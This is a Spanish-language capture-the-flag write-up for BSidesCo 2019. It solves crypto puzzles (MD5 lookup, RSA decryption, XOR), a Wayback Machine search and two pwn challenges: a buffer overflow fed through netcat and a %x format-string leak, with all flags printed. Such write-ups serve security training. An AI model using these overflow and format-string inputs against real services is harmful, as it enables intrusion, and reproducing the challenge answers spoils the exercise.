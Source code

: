 # BSidesCo 2019


 - [BSidesCo CTF 2019](#bsidesco-2019)
   - [crypto](#crypto)
     - [Irreversible](#irreversible)
     - [Robando Secretos Antiguos 1](#robando-secretos-antiguos-1)
     - [Exorcismo 1](#exorcismo-1)
   - [misc](#misc)
     - [Pasado](#pasado)
   - [pwn](#pwn)
     - [Incontinencia](#incontinencia)
     - [Magia magia](#magia-magia)
   - [web](#web)



## crypto

### Irreversible

En el reto nos dan el archivo *secreto_ENqLQHW*, revisando el contenido del archivo se encontraron las siguientes cadenas

```
d3533c8a56a9325ab32af80bb99d652b
70e79d498d7885d565ab2c75d3062fc7
7f138a09169b250e9dcb378140907378
337a4834d0dda8ea2f43d9e10d6dd730
fc985ff116f0a3325ae2b57e19ca68ea
```
La pista del reto es: 
**La bandera sigue el formato _BSidesCo{palabra_palabra_palabra_palabra_palabra}_**

Por el formato parece ser MD5. Una consulta rápida en [md5decrypt.net](https://md5decrypt.net) muestra el valor de cada cadena:

```
d3533c8a56a9325ab32af80bb99d652b : Cifrar
70e79d498d7885d565ab2c75d3062fc7 : usando
7f138a09169b250e9dcb378140907378 : MD5
337a4834d0dda8ea2f43d9e10d6dd730 : parece
fc985ff116f0a3325ae2b57e19ca68ea : inutil
```
Siguiendo la pista la flag es: 

**_BSidesCo{Cifrar_usando_MD5_parece_inutil}_**


### Robando Secretos Antiguos 1

El reto dice **_Un amigo logró robar un secreto pero necesitamos alguien que lo descifre._** y ofrece dos archivos **mensaje** y **secreto_4w0rH5o**

Revisando los dos archivos conocemos que **mensaje** es data y  **secreto_4w0rH5o** es una llave privada RSA

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$file mensaje                  
mensaje: data
```

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$file secreto_4w0rH5o                  
secreto_4w0rH5o: PEM RSA private key
```

Usando OpenSSL podemos decifrar el mensaje


```console
oscar@asgard:~/WORKSPACE/ctf/bsides$openssl rsautl -decrypt -in mensaje -out mensaje.txt -inkey secreto_4w0rH5o                  
```
Revisando el contenido de **mensaje.txt** encontramos la bandera:

**_BSidesCo{uN_s3Cr3T0_P0c0_S3cR3t0}_**

### Exorcismo 1

En este reto nos dan el archivo **secreto**

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$cat secreto 
010100000011001001001010011011000110001001101100010011000111010101000111001101000110001000110000011100100011000001010000011011000110011101111010010010010111010001011010011000100011000101100111001100100110011101001011011100000100110001000111

000100100110000100100011000010000000011100011111000011110001101000111100010101110011000001001001000000100110010001100000001100110000010001001110001001010100011100110100000101100000010100001010000000110000001000100101000001000111110000111010
```

La pista del reto es: **_eXORcismo, así o más explícito? ;)_**

Usando una [calculadora XOR online](https://xor.pw/) con los dos bloques como input y calculando la salida como ASCII(base 256) se obtiene la bandera:

**_BSidesCo{cRypT0_c4l3nt4m1ent0}_** 

## misc

### Pasado

El reto nos pide la URL del formulario que se debía llenar para proponer una charla para el BSidesCo del año 2016.

La pista del reto es: **_La bandera no sigue el formato, es la URL._**

Buscando en [Way Back Machine](https://web.archive.org/) la url _bsidesco.org_ se puede ver un snapshot del sitio del 20 de junio de 2016.

En el link **Enviar Paper** se puede encontrar la URL del form.

**_https://bsidesco.typeform.com/to/qKrnSF_** y esa es la bandera

## pwn

### Incontinencia

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$python -c "print 'Y'*10" | nc -v retos.bsides.ctf.co 
Connection to retos.bsides.ctf.co 31332 port [tcp/*] succeeded!
====================|==|====================
SERVICIO DE CORREO SIN MEDIDA
Usuario     : Rodolfo
Bandeja     : 1 nuevo correo
====================|==|====================

Se requiere una clave para observar el correo...
ADVERTENCIA: SE RECOMIENA UNA CLAVE DE 7 DIGITOS
Entre su clave: 
Cargando la bandeja...

Email 1: From (sedisb@anon44f8zh7c8a.onion)
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA1
I'll be sending out invitations shortly. Will most likely host
the recruitment site on the dark web. Was wondering if you had
any good suggestions for the recruitment challenge. Thanks.
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v3.3.7 (MingW32)
iD8DBQFFxqRFCMEe9B/8oqEaE5RtJ91Tx4RziVzY4eR4Ms4MFsKAMqOoQCgg7y6
e5AJIRuLUIUikjNWQIW63QE=
=aAhr
-----END PGP SIGNATURE-----
Email 1: End

BSidesCo{GO0O0O0v3rfl0W}
oscar@asgard:~/WORKSPACE/ctf/bsides$
```

La bandera es:

**_BSidesCo{GO0O0O0v3rfl0W}_**

### Magia magia

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$nc -v retos.bsides.ctf.co 31333
Connection to retos.bsides.ctf.co 31333 port [tcp/*] succeeded!
Prueba que eres mago y lees mentes!
Primero dime tu nombre (hasta 10 letras): 
%x.%x.%x
Estoy pensando un numero entre 0 y 1000000, puedes decirme cual es?
a192a284.5db.7433f
has tu prediccion: 475967
Sorprendente! Aca esta la bandera: BSidesCo{m4gi4_MAG1a-b5G_BU6}

oscar@asgard:~/WORKSPACE/ctf/bsides$
```

La bandera es:

**_BSidesCo{m4gi4_MAG1a-b5G_BU6}_**


## web
